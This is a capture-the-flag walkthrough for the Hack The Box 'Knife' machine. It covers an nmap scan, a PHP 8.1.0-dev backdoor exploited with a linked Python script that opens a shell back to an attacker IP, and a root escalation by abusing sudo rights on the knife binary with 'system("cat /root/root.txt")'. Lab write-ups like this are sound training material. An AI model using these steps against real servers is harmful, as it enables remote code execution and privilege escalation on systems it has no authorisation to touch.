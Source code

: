 # CTF: [HTB Knife](https://app.hackthebox.eu/machines/Knife)
## Notes
```
10.10.10.242


scan:

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

headers:
X-Powered-By: PHP/8.1.0-dev
https://www.exploit-db.com/exploits/49933

use python script to gain shell

user.txt:[]

sudo -l shows:
User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife

sudo knife exec -E 'system("cat /root/root.txt")'

root.txt:[]
```
## Enumeration
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```
Navigate to the address
on a browser and inspect the headers. The server is running PHP 8.1.0-dev. There has been a recent exploit that abuses this version, 
allowing attackers to run arbitrary code. 
## PHP 8.1.0-dev exploit
We are going to use 
[this Python script](https://github.com/prodseanb/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py) to get a shell.
<br/><br/>
Download the script and execute.
```
Usage: python3 backdoor_php_8.1.0-dev.py [target URL] [Attacker IP] [port]
```
The first flag (user.txt) is under `/home/james`.
## Privilege escalation/root flag
Run `sudo -l`.
```
User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
It seems like we can use knife to execute with root privileges. Run this command to get the root flag.
```
sudo knife exec -E 'system("cat /root/root.txt")'
```
